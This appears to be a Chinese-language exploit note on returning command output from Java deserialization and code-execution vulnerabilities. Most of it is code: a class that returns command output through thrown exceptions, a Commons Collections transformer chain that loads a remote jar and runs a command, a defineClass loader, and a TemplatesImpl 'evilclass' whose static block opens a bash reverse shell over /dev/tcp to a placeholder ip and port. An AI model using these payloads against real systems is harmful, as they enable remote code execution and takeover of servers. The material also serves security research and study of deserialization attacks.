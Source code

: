 # java回显

>一般web服务是想办法获得response对象，可以参考[2021RCTF ezshell](https://github.com/Firebasky/ctf-Challenge/tree/main/RCTF-2021-EZshell)


### URLClassLoader抛出异常

```java
package exploit.firebasky;

import java.io.BufferedInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;

public class ErrorBaseExec
{
    public ErrorBaseExec(String cmd) throws Exception{
        do_exec(cmd);
    }

    public static byte[] readBytes(InputStream in)
            throws IOException
    {
        BufferedInputStream bufin = new BufferedInputStream(in);
        int buffSize = 1024;
        ByteArrayOutputStream out = new ByteArrayOutputStream(buffSize);
        byte[] temp = new byte[buffSize];
        int size = 0;
        while ((size = bufin.read(temp)) != -1) {
            out.write(temp, 0, size);
        }
        bufin.close();

        byte[] content = out.toByteArray();

        return content;
    }

    public static void do_exec(String cmd)
            throws Exception
    {
        Process p = Runtime.getRuntime().exec(cmd);
        byte[] stderr = readBytes(p.getErrorStream());
        byte[] stdout = readBytes(p.getInputStream());
        int exitValue = p.waitFor();
        if (exitValue == 0) {
            throw new Exception("-----------------\r\n" + new String(stdout) + "-----------------\r\n");
        }
        throw new Exception("-----------------\r\n" + new String(stderr) + "-----------------\r\n");
    }

    public static void main(String[] args)
            throws Exception
    {
        do_exec(args[0]);
    }
}
```
编译成jar之后可以封装到cc利用链组件中
```java
public static Transformer[] EchoCC() throws Exception  {
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(URLClassLoader.class),
            new InvokerTransformer("getConstructor",
                new Class[]{Class[].class},
                new Object[]{new Class[]{URL[].class}}),
            new InvokerTransformer("newInstance",
                new Class[]{Object[].class},
                new Object[]{new Object[]{new URL[]{new URL("http://127.0.0.1:8099/ErrorBaseExec.jar")}}}),
            new InvokerTransformer("loadClass",
                new Class[]{String.class},
                new Object[]{"exploit.firebasky.ErrorBaseExec"}),
            new InvokerTransformer("getConstructor",
                new Class[]{Class[].class},
                new Object[]{new Class[]{String.class}}),
            new InvokerTransformer("newInstance",
                new Class[]{Object[].class},
                new Object[]{new String[]{"ipconfig"}})
        };
        return transformers;
    }
```
### defineClass
其实就是通过ClassLoader去执行(反射)我们自定义类的字节码。

```java
public static String FiletoBytes(String filename) throws Exception{
        String buf = null;
        File file = new File(filename);
        FileInputStream fis = null;
        try {
            fis = new FileInputStream(file);
            int size = fis.available();
            byte[] bytes = new byte[size];
            fis.read(bytes);
            buf = Arrays.toString(bytes);
            fis.close();
            return buf;
        } catch (FileNotFoundException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }
        return buf;
    }
    
@Override
    protected Class<?> findClass(String name) throws ClassNotFoundException {
        if (name == myClassName) {
            System.out.println("加载" + name + "类");
            return defineClass(myClassName, bs, 0, bs.length);
        }
        return super.findClass(name);
    }    
```

### 中间件回显
由于没有是研究tomcat等容器的回显。能力有限。


>中间件而言多数重写了thread类，在thread中保存了req和resp，可以通过获取当前线程，在resp中写入回显结果



参考：https://l3yx.github.io/2020/03/31/Java-Web%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%9B%9E%E6%98%BE%E6%80%BB%E7%BB%93/

直接用项目的代码。

在利用tempimpl创建类的时候可以使用如下代码
```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;

public class evilclass extends AbstractTranslet  {
    static {
        try{
            Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/ip/port;cat <&5 | while read line; do $line 2>&5 >&5; done"});
        }catch (IOException e){
            try{
                Runtime.getRuntime().exec(new String[]{"cmd", "/c", "calc"});
            }catch (IOException ee){
            }
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```



>参考：
>
>[Java 反序列化回显的多种姿势](https://www.joyk.com/dig/detail/1624894461629758)
>
>[Java Web代码执行漏洞回显总结](https://l3yx.github.io/2020/03/31/Java-Web%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%9B%9E%E6%98%BE%E6%80%BB%E7%BB%93/)
>
>[通杀漏洞利用回显方法-linux平台](https://www.00theway.org/2020/01/17/java-god-s-eye/)
>
>[linux下java反序列化通杀回显方法的低配版实现](https://xz.aliyun.com/t/7307)
> 
>[Tomcat中一种半通用回显方法](https://xz.aliyun.com/t/7348)     
>
>[Java反射-修改字段值, 反射修改static final修饰的字段](https://www.cnblogs.com/noKing/p/9038234.html)
>
>[基于全局储存的新思路 | Tomcat的一种通用回显方法研究](https://mp.weixin.qq.com/s?__biz=MzIwMDk1MjMyMg==&mid=2247484799&idx=1&sn=42e7807d6ea0d8917b45e8aa2e4dba44)
>
>[tomcat不出网回显连续剧第六集](https://xz.aliyun.com/t/7535)
